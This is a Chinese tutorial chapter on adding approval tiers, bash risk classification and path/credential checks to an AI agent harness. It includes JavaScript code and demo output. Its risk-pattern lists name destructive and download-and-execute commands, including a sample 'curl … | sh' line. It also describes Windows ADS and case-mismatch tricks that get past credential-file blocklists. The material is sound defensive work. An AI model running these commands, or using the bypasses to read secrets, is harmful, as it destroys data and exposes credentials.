

# 第 6 章：安全模型 —— 别把电脑的钥匙随便交给 AI

第 5 章收尾时留了一句话：这个 Harness 现在谁的话都听——模型说 `rm -rf build`，它就真跑。前面五章一直在给它装能力（读文件、跑命令、写文件、连不同的模型），这一章补最后一道护栏。

有个坑得先说清楚，因为它决定了整章的设计方向：**光靠「拦住几个危险命令」是拦不住的。** 你拦住了 `rm -rf`，可 `rm -rf build` 是在工作区内删你自己的构建产物——路径完全合法，静态检查挑不出任何毛病，它照样能把东西删光。所以安全的真正内核不是「挡几个字符串」，而是**一层你能控制、且各处口径一致的审批**。先把几个词讲清楚。

## 1. 先搞懂三个词（What）

### 1.1 审批：门口那句「问一下」

装修队进你家干活，你不是不信任他们——但每次要动承重墙、要扔东西，你都想被问一句。**审批（approval）**就是这句问话：模型每次要做一个「会改动东西」的动作（写文件、跑命令），先向你申请。

这声申请的回答只有三种：**放行**、**拒绝**、**本次全部允许**。注意第三种的真实边界——源码里它「只在内存里，重开即恢复」，不是持久授权。

最要紧的是「拒绝」长什么样：它**不是**抛异常让程序崩，而是一张写着「此路不通 + 原因」的工具结果，交给模型。模型拿到这张小票，会自己换一条路走（换个命令、或者干脆换个办法完成任务）。

### 1.2 三档：门禁卡的三个权限等级

公司门禁通常不止「能进 / 不能进」：访客卡只能进大厅看看；员工卡能进工位，但每次带东西出去要登记；管理员卡全通。审批也是三档：

- `read-only`（只读）：只能看，写与执行**一律拒绝**；
- `workspace-write`（工作区读写，默认）：写与执行**逐次问你**；
- `full-access`（全权）：全放行，不再问。

为什么不能只有一个「信任 / 不信任」的开关？因为它表达不了最常见的那类需求：**只许看不许动**。审查一个陌生仓库、跑一次 CI、让 Agent 先把代码读懂再说——这些都要「能读不能写」这一档，而布尔只能给你「全问」或「全放行」。

### 1.3 警示灯与栅栏：分级和路径校验

除了门本身，还有两样东西容易被混为一谈。

**风险分级**是门上的警示灯：同样是「跑命令」，`ls` 和 `rm -rf build` 的吓人程度差着量级。分级给一条命令标 `none` / `elevated` / `high`，再附一句「为什么危险」。但**灯不决定开不开门**——决定开门的是审批；灯只决定「开门前你被怎么提醒」。

**路径与凭据校验**是院子外的栅栏：所有操作限制在工作区内（词法一层、真实路径一层，软链接指到外面也拦），密钥类文件（`.env`、`*.pem`、`id_rsa` 之类）默认不许碰。这道栅栏很有用，但它是**尽力而为**的静态检查——它挡得住越界路径，挡不住一条路径合法、却在你工作区里删东西的命令。

把三个词串起来：**审批是门（放不放行），三档是门禁权限（这扇门允许多严），风险分级是门上的警示灯（有多危险、怎么提示），路径与凭据校验是院子外的栅栏（尽力而为的第一道拦）。** 四样东西职责分明，混在一起就会出问题。

## 2. 它怎么转 + 为什么非这么转（How）

把源码里无关的分支裁掉，一次「会改动东西」的工具调用要过的关卡是这样的——**每个标了「决定 N」的区块，就是下面 2.2 ~ 2.6 要展开的设计决策**：



> **人话版**：调用进来先过栅栏（决定五），越界或撞上密钥文件当场拒绝；通过之后先看这个工具是不是只读的（决定一，只读与档位无关，直接放行）；不是只读就查档位（决定二）——全权档直接放行；只读档则**直接拒绝、不问**（决定三）；只有默认档才往下走：先跑一遍风险分级拿到「有多危险、为什么」（决定四），把等级和原因一起摆给人看，等人回答。而**这条链上的两个判断都是纯函数**（也在决定四），所以终端、网页、无人值守拿到的永远是同一份回答。下面 2.2 ~ 2.6 逐条讲代价与真实坑，第 3 节代码就是照这张图落地。

How 和 Why 合并在一节，是因为每个选择的理由都和它「怎么转」长在一起；这些决定会被第 3 节的代码逐行落实。

先看**不这么设计会出什么乱子**：

### 2.1 不这么设计的下场

- **一个布尔开关，逼你在「全问」和「全放行」之间二选一。** 审查陌生仓库、跑 CI 时你只想让它看，但没有中间档；于是要么被几十次确认烦到把审批关掉，要么全放行赌运气。
- **只读档做成「询问」，模型会一直重试。** 它拿到一个「要不要写」的问句，会以为「可能可以」，于是反复尝试同一个写操作、一次次等你点头——本来该被明确拒绝的事，变成了一场拉锯。
- **每端各判一次，同一句 `rm -rf` 两种结局。** 终端里是红的、必须确认；网页版自己判断「看起来没事」就放行了。没有唯一事实来源，安全程度取决于你从哪个入口进来。
- **把希望全押在路径校验上。** 它挡得住越界路径，挡不住 `rm -rf build`——路径完全合法、就在工作区里，删的是你的东西。

### 2.2 决定一：只读工具先放行，且「哪些是只读」只有一份名单

裁决的第一道判断不是档位，而是「这个工具本身有没有副作用」：在只读名单里的工具，**任何档位都免确认**。因为「读文件」在任何一档都不构成风险，跟「这个档信不信任你」是两件事。

名单本身不新起一份：审批直接引用注册表那一份（源码里 `policy.ts` 从 `registry` 导入 `READ_ONLY_TOOLS`，注释写明「从而『注册表认为可并发』与『审批认为免确认』同源」）。第 2 章的 `tools.js` 已经导出了这份数组，本章的 `security.js` 直接 `import` 它。

**代价**：审批的语义被绑在「工具声明」上了——名单写错一个工具，等于给它开了一道免确认的后门。所以这份名单必须有测试钉住（第 2 章讲的那条：注册表标记出来的只读集合必须与名单逐项一致），否则「新增只读工具时必然漏一处」的老问题会从并发那边转移到审批这边。

**深入一点**：顺序也不是随便排的。先判只读、再判档位的写法，让 `/status` 和界面上的归因始终是「只读」，不会被「全权档」吸收掉——你看到的原因永远是真正的那个，而不是最后生效的那个。

<!-- code-ref: packages/core/src/policy.ts#L129-L147 -->

### 2.3 决定二：权限用三档，不用一个布尔

三个档位的定义、默认值、从紧到松的排列，都放在同一个文件里；`ApprovalMode` 是唯一类型，界面层拿到的必须是它的**类型别名**（而不是另写一份联合类型），并由测试钉住两者逐项相等。

**踩坑实录（源码注释里的真事）**：此前审批只有一个布尔——「信任开 / 关」。它表达不了最常见的那类需求：只许看、不许动。审查陌生仓库、跑 CI、让 Agent 先读懂代码，全都要「能读不能写」这一档，而布尔只能给出「全问」或「全放行」。三档是在这个背景下加的。

**代价**：多维护一份档位定义；还要处理历史包袱（旧布尔通过一个映射函数兼容：`true → full-access`、`false → workspace-write`）。而最阴的代价在后面那条注释里：如果客户端各写一份档位类型，「内核加第四档、客户端不认识」这件事会**以类型错误之外的方式悄悄发生**——静默少一档，没人报错。

**深入一点**：`full-access` 刻意**不做**「高危仍然问一次」的例外。源码注释的理由很硬：半自动的承诺比全量检查更危险——用户以为高危那层网还在，其实开关一拨就一起没了。所以这一档就是全放行，责任清晰地落在「用户主动选了它」上。

<!-- code-ref: packages/core/src/policy.ts#L32-L52 -->

<!-- code-ref: packages/core/src/policy.ts#L100-L109 -->

### 2.4 决定三：`read-only` 是「直接拒绝」，不是「再问一次」

直觉上，不让做是不是该问问？不对。`read-only` 这一档的意义就是**明明白白告诉模型「这里没有写的余地」**，所以它的裁决是 `block` + 一句带原因的话，而不是 `ask`。模型拿到的是一条「此路不通」的结果，于是会自己换一条只读的路子走。

**代价**：这一档下模型没有任何「求情」通道，用户真想临时放行得先切档——多一步操作。换来的是一个明确的边界。

**深入一点**：询问意味着「可能可以」。一旦弹确认框，模型就会反复尝试同一个写操作、等你点头；而拒绝是终局的，它不会重试同一件事。源码把这条写在了档位注释里，和「`full-access` 不做例外」并列，作为两个「刻意的取舍」。

<!-- code-ref: packages/core/src/policy.ts#L16-L22 -->

<!-- code-ref: packages/core/src/policy.ts#L148-L162 -->

### 2.5 决定四：风险分级是另一个维度——只决定怎么提示，不决定放不放行

「这条命令有多危险」是**事实**；「放不放行」取决于档位。两件事必须分开，所以它们是两个纯函数：`evaluateApprovalPolicy(档位, 工具名)` 和 `assessBashRisk(command)`。后者只产出结构化数据（等级 + 命中原因），**不产字符串、不着色、不读 TTY**——终端用红色加感叹号、网页用卡片配色、无人执行模式写成 JSON 字段，各自去渲染。

分级本身还有一条规矩：**命中 `high` 就不再叠加 `elevated`**。否则一条 `rm -rf build` 会同时列出「删除文件」「网络请求」之类的一堆中危理由，把真正致命的那条淹掉。

**代价**：风险维度和审批维度要由调用方**拼起来**呈现——分级管提示，档位管放行，中间没有任何一方替另一方做决定。另外，分级的边界是**白名单**而不是正则：源码里 `verify_command` 刻意不参与分级，因为它的命令已被测试/构建/检查类白名单结构性收窄，删除与网络类根本进不来；真给它跑一遍正则，只会得到一个恒为 `none` 的分支，反而模糊了「它为什么安全」。

**深入一点**：把「多危险」下沉到内核，是为了三端拿到同一份判断。源码注释把后果写得很具体：否则同一条 `rm -rf` 在终端是高危、在界面上却只是一行普通提示。而 `verify_command` 那个反例说明：**能做什么**（白名单）和**要不要确认**（档位）也是两个维度——`verify_command` 会写构建产物，所以它不在只读集合里，仍要逐次确认。

<!-- code-ref: packages/core/src/risk.ts#L1-L14 -->

<!-- code-ref: packages/core/src/risk.ts#L95-L110 -->

<!-- code-ref: packages/core/src/risk.ts#L112-L153 -->

### 2.6 决定五：路径与凭据校验只是栅栏，审批才是门

栅栏怎么拦：路径做**两层**校验（`resolve` 之后必须仍在工作区内；再逐段解析 symlink / junction，连「尚不存在的末段」也解析），凭据文件按文件名名单默认禁读禁写、检索工具也不列举。

**代价**：这一层要处理的例外比想象中多，而且每一条都是「漏了就全盘失守」：

- **软链接**：`read_file("notes.txt")` 里的 `notes.txt` 可能是指向 `.env` 的符号链接，词法上看完全无害——只判 basename 等于给它留了免检通道，所以还要解析真实路径再判一次。
- **Windows ADS**：`read_file(".npmrc::$DATA")` 读到的正是 `.npmrc`，而 basename 变成 `.npmrc::$DATA`，凭据名单一个都匹配不上——「默认禁止读写凭据」在这条路径上完全失效。
- **大小写**：Windows 文件系统不敏感，`read_file(".ENV")` 实际打开的就是 `.env`；匹配规则不带 `i`，就等于留了一个只在该平台成立的洞。

**踩坑实录（源码注释里的真事）**：系统提示词里**早就写了**「禁止读取 `.env`」，但此前它只是提示——模型仍可以直接读到。把它落到工具层强制生效，是在「提示词禁令」被证明只是君子协定之后。同样真实的还有风险分级那一处：Windows / PowerShell 的删除与磁盘操作（`del /s /q`、`rd /s`、`Remove-Item -Recurse`）**之前完全没识别**。补这些规则时还得拿捏位置——`grep del README.md` 只是一条普通命令，不能因为含 `del` 就被判成删除，所以规则要求 `del` / `rd` 出现在命令位置（行首、`&&` 之后、`cmd /c` 之后），既要拦得住，也不能误伤。

**深入一点**：为什么说它只是栅栏、审批才是门？因为 bash 是拿 shell 执行任意命令的——`node -e "..."`、变量拼接、编码变换都拦不住。源码在这一层的注释里写得很坦白：这些检查都是**尽力而为的静态检查**，真正的防线是执行前的用户审批。也就是说，`rm -rf build` 这种路径合法、但会把你工作区删光的命令，**唯一能拦住它的是那个「人点了拒绝」**。把安全全押在栅栏上，漏一个变形就全盘失守。

<!-- code-ref: packages/core/src/agent/tools/workspace.ts#L1-L11 -->

<!-- code-ref: packages/core/src/agent/tools/workspace.ts#L148-L157 -->

<!-- code-ref: packages/core/src/agent/tools/workspace.ts#L188-L201 -->

<!-- code-ref: packages/core/src/risk.ts#L48-L62 -->

## 3. 实现：跟着写一层审批

本章往 `harness/` 里加一个模块加一个驱动脚本：`security.js`（审批裁决和风险分级**两个纯函数**，一行界面代码都没有）和 `run-security.js`（三张表 + 一轮端到端）。

**seam 承诺**：`loop.js` 一行都不用改。第 1 章就已经把「要不要执行这个工具」抽成了 `beforeToolCall` 钩子，循环只认 `allow` / `block` / `rewrite` 三种回答，不关心「为什么」。审批三档要做的，只是把纯函数的输出翻译成那三种回答当中的一个。`tools.js` 也不改——本章只是**引用**它导出的只读名单，不复制一份。

### 3.0 落点：一套累积式代码

本系列是**累积式**的：每一章往同一个 `harness/` 目录里加文件，代码从简到全。本章是「简化 Harness」的收尾，加完之后这个目录就是一个带审批护栏的完整内核：

```
harness/
├── messages.js        # 第1章：消息与内容块的形状
├── model.js           # 第1章：模型 seam（mock）
├── tools.js           # 第2章：工具注册表 + 只读分级 —— 本章只读它的名单
├── loop.js            # 第1章：核心循环 —— 本章不动（钩子早就留好了）
├── model-reliable.js  # 第3章：可靠性壳
├── flaky-model.js     # 第3章：事故假模型
├── context.js         # 第4章：token 估算与压缩阈值
├── session.js         # 第4章：JSONL 会话存储
├── provider.js        # 第5章：统一 Provider 接口
├── context-window.js  # 第5章：窗口表
├── security.js        # 本章新增：审批三档 + 风险分级（两个纯函数）
└── run-security.js    # 本章新增：三张表 + 一轮端到端
```

> 第 7~9 章的文件（`subagent.js` / `skills.js` / `eval.js` 等）也在同一个目录里，属于进阶线，本章不涉及。

### 3.1 `security.js` —— 两个纯函数

```js
// harness/security.js —— 第6章：审批三档 + 风险分级。
// 对应源码 policy.ts（审批裁决）与 risk.ts（风险分级）。
// 关键设计：两个都是**纯函数**——不碰任何界面，终端 / 网页 / 无人值守共用同一份裁决，
// 否则「同一句 rm -rf 在终端被拦、在网页却放过」。
import { READ_ONLY_TOOL_NAMES } from "./tools.js";

// 只读名单不新起一份，直接用第2章那一份（决定一）：
// 注册表认为「免确认」和审批认为「免确认」必须同源，否则新增只读工具时必然漏一处。
export const READ_ONLY_TOOLS = new Set(READ_ONLY_TOOL_NAMES);

/**
 * 审批裁决：输入「档位 + 工具名」，输出 allow / ask / block。
 * 顺序刻意固定：先判只读工具 → 再判档位（决定一 / 决定二 / 决定三）。
 */
export function evaluateApprovalPolicy(mode, toolName, readOnlyTools = READ_ONLY_TOOLS) {
  // 1) 只读工具：任何档都放行（它是「工具本身没副作用」，不是「这个档信任你」）
  if (readOnlyTools.has(toolName)) {
    return { kind: "allow", reason: "只读工具，免确认" };
  }
  // 2) 全权档：全放行，不做「高危仍问一次」的例外（决定二：半自动比全量检查更危险）
  if (mode === "full-access") {
    return { kind: "allow", reason: "全权模式，不再逐一确认" };
  }
  // 3) 只读档：直接拒绝、不是询问（决定三：询问等于告诉模型「可能可以」）
  if (mode === "read-only") {
    return { kind: "block", reason: `read-only 档位下不允许 ${toolName}：写与执行一律拒绝` };
  }
  // 4) 默认档（workspace-write）：写 / 执行逐次问
  return { kind: "ask", reason: "" };
}

// 高危模式：不可逆 / 影响超出工作区（源码 risk.ts 的精简版，保留了代表性条目）
const HIGH_RISK_PATTERNS = [
  [/\brm\b[^\n]*?\s-[a-z]*(?:r[a-z]*f|f[a-z]*r)\b/i, "递归/强制删除（rm -rf），删除后不可恢复"],
  [/\bsudo\b/, "提权执行（sudo），命令以 root 权限运行"],
  [/\bgit\s+push\b[^\n]*?(?:--force|-f\b)/, "强制推送，会覆盖远端历史"],
  [/\b(?:curl|wget)\b[^\n]*\|\s*(?:sudo\s+)?(?:ba|z|fi|k)?sh\b/i, "下载即执行（管道到 shell）"],
  [/\bmkfs\b/, "格式化文件系统（mkfs）"],
];

// 中危模式：有副作用但通常可控
const ELEVATED_RISK_PATTERNS = [
  [/\brm\b/, "删除文件"],
  [/\bmv\b/, "移动 / 重命名文件"],
  [/\bgit\s+push\b/, "推送提交到远端"],
  [/\bnpm\s+(?:install|i)\b/, "安装依赖包"],
  [/\b(?:curl|wget)\b/, "发起网络请求"],
  [/\bchmod\b/, "修改文件权限"],
];

/**
 * 风险分级：给一条 bash 命令标 none / elevated / high，附命中原因。
 * 与档位无关（决定四：分级决定怎么提示，审批决定放不放行，两件事）。
 * 命中 high 后不再叠加 elevated——否则「删除文件」这类中危会把真正致命的淹掉。
 */
export function assessBashRisk(command) {
  const high = HIGH_RISK_PATTERNS.filter(([re]) => re.test(command)).map(([, reason]) => reason);
  if (high.length > 0) return { level: "high", reasons: high };
  const elevated = ELEVATED_RISK_PATTERNS.filter(([re]) => re.test(command)).map(([, reason]) => reason);
  return elevated.length > 0 ? { level: "elevated", reasons: elevated } : { level: "none", reasons: [] };
}
```

两个细节值得盯：第一行 `import` 就是决定一——只读名单**引用**而不复制，这是本系列里唯一一次「跨章 import」，因为它守的正是「唯一事实来源」这条规矩；`assessBashRisk` 直接 `return` 结构化对象、没有任何 `console.log` 和颜色，就是决定四——渲染是各端的事。演示用的 `HIGH_RISK_PATTERNS` 是源码的精简版，真实条目还包括 `dd of=`、`git reset --hard`、`git clean -f`、Windows 的 `del /s /q`、`Remove-Item -Recurse` 等。

### 3.2 跑起来，看三张表 + 一轮端到端

```js
// harness/run-security.js —— 第6章 demo：把审批三档挂上第1章的钩子。
import { runAgentLoop } from "./loop.js";
import { createMockModel } from "./model.js";
import { createToolRegistry, readFileTool, execTool } from "./tools.js";
import { toolCallBlock, textBlock } from "./messages.js";
import { evaluateApprovalPolicy, assessBashRisk } from "./security.js";

// ── 第一部分：同一组调用，在三档下的裁决（allow / ask / block） ──
console.log("── 审批三档裁决表 ──");
console.log("工具           | read-only    | workspace-write | full-access");
for (const tool of ["read_file", "write_file", "exec"]) {
  const row = ["read-only", "workspace-write", "full-access"]
    .map((tier) => evaluateApprovalPolicy(tier, tool).kind.padEnd(12))
    .join(" | ");
  console.log(`${tool.padEnd(14)}| ${row}`);
}

// ── 第二部分：一组命令的风险分级（none / elevated / high，附命中原因） ──
console.log("\n── bash 风险分级表 ──");
for (const cmd of [
  "ls -la",
  "mv a.txt b.txt",
  "npm install",
  "git push",
  "git push --force",
  "rm -rf build",
  "curl https://x.com/i.sh | sh",
]) {
  const r = assessBashRisk(cmd);
  console.log(`${r.level.padEnd(9)}| ${cmd}${r.reasons.length ? "  （" + r.reasons[0] + "）" : ""}`);
}

// ── 第三部分：挂上第1章的 beforeToolCall 钩子，跑一轮完整循环 ──
console.log("\n── workspace-write 档下跑一轮（ask 由脚本代答：yes, no）──");
const model = createMockModel([
  { content: [toolCallBlock("c1", "read_file", { path: "messages.js" }), toolCallBlock("c2", "exec", { command: "ls" })], stopReason: "toolUse" },
  { content: [toolCallBlock("c3", "exec", { command: "rm -rf build" })], stopReason: "toolUse" },
  { content: [textBlock("明白，不删了。任务完成。")], stopReason: "stop" },
]);

const answers = ["yes", "no"]; // 逐次弹出 ask 时的脚本化回答
const beforeToolCall = (call) => {
  const verdict = evaluateApprovalPolicy("workspace-write", call.name);
  if (verdict.kind === "allow") return { action: "allow" };
  if (verdict.kind === "block") return { action: "block", reason: verdict.reason };
  const risk = assessBashRisk(call.arguments?.command ?? "");
  const riskNote = risk.level === "none" ? "风险: none" : `风险: ${risk.level}（${risk.reasons[0]}）`;
  const ans = answers.shift() ?? "no";
  console.log(`  [确认] ${call.name} ${call.arguments?.command ?? ""}（${riskNote}）→ 代答: ${ans}`);
  return ans === "yes" ? { action: "allow" } : { action: "block", reason: "用户点了 no" };
};

const tools = createToolRegistry([readFileTool, execTool]);
const { newMessages } = await runAgentLoop({
  systemPrompt: "你是一个会干活的助手。",
  messages: [],
  tools,
  model,
  beforeToolCall,
});

console.log("\n--- 本轮产生的消息 ---");
for (const m of newMessages) {
  if (m.role === "toolResult") {
    console.log(`[toolResult ${m.toolName}] ${m.content[0].text.slice(0, 60)}`);
  }
}
```

运行：

```bash
cd demos/harness && node run-security.js
```

预期输出（**真实运行结果**；第三部分里 `exec ls` 列出的文件名取决于你目录里的内容，只显示前 60 个字符）：

```
── 审批三档裁决表 ──
工具           | read-only    | workspace-write | full-access
read_file     | allow        | allow        | allow
write_file    | block        | ask          | allow
exec          | block        | ask          | allow

── bash 风险分级表 ──
none     | ls -la
elevated | mv a.txt b.txt  （移动 / 重命名文件）
elevated | npm install  （安装依赖包）
elevated | git push  （推送提交到远端）
high     | git push --force  （强制推送，会覆盖远端历史）
high     | rm -rf build  （递归/强制删除（rm -rf），删除后不可恢复）
high     | curl https://x.com/i.sh | sh  （下载即执行（管道到 shell））

── workspace-write 档下跑一轮（ask 由脚本代答：yes, no）──
  [确认] exec ls（风险: none）→ 代答: yes
  [确认] exec rm -rf build（风险: high（递归/强制删除（rm -rf），删除后不可恢复））→ 代答: no
明白，不删了。任务完成。
--- 本轮产生的消息 ---
[toolResult read_file] // harness/messages.js
// 协议铁律：assistant 里的每个 toolCall，都必须有
[toolResult exec] README.md
context-window.js
context.js
eval.js
flaky-model.j
[toolResult exec] 被拒绝: 用户点了 no
```

三处值得逐行对照：

- **裁决表第一行 `read_file` 三档全 `allow`。** 只读工具与档位无关，这是裁决的第一道判断（决定一）；把它写在档位之前，才不会被「全权档」吸收成「因为全权所以放行」。
- **风险表里 `git push` 是 `elevated`，`git push --force` 跳到 `high`。** 后者同时命中了中危的「推送提交到远端」，但因为命中 `high` 就不再叠加，输出里只剩致命那条（决定四）。
- **端到端那轮里 `rm -rf build` 被拦下，靠的不是路径校验。** 路径完全合法、就在工作区里，静态检查挑不出毛病；拦住它的是「用户点了 no」（决定五）。模型拿到的是一条「被拒绝」的结果而不是崩溃，于是自己换了话头收尾。

走到这里，`node run.js` 跑起来的就是一个带审批护栏的简化 Harness。

## 4. 配套 demo

demo 在仓库的 `demos/harness/`，与本章正文逐文件对应：`security.js` + 驱动脚本 `run-security.js`——就是 3.1 ~ 3.2 节那两份代码，可直接对照着抄，也可以先跑一遍看效果：

```bash
cd demos/harness && node run-security.js
```

本章只新增文件、只引用第 2 章的名单，没动任何旧 seam：`node run.js`、`node run-tools.js`、`node run-reliable.js` 的行为与前面各章一致（回归已跑过）。后续第 7~9 章继续往同一个目录里加文件（见第 0 章的搭建地图）。

## 5. 小结与下一章

安全模型一句话：**审批是门，三档是门禁权限，风险分级是门上的警示灯，路径与凭据校验是院子外的栅栏。** 这四样东西必须是四个维度、各有唯一事实来源，否则同一句 `rm -rf` 在不同入口会得到不同结果。

其中**「路径守卫只是尽力而为」**最不起眼，却最致命——因为它是唯一一个听起来像「已经安全了」的那层。真正兜住 `rm -rf build` 的，是一个愿意在确认框上点「拒绝」的人；所有设计（三档、分级、纯函数、三端同源）都是为了让他点得下去、也让他在全权档下清楚知道自己放弃了什么。

到这里，「简化 Harness」的内核齐了，但它还有天生的限制：所有事都在一份上下文里干，也没有人验证过它到底变笨了没有。第 7 章先解决前者——**子 Agent 与 Skills**：把活派出去、只收回结论，委派是一次普通的工具调用而不是另一套运行时，而三道闸（深度 / 次数 / 回传总量）缺一不可，否则「省下来的上下文会被加倍吃回去」。
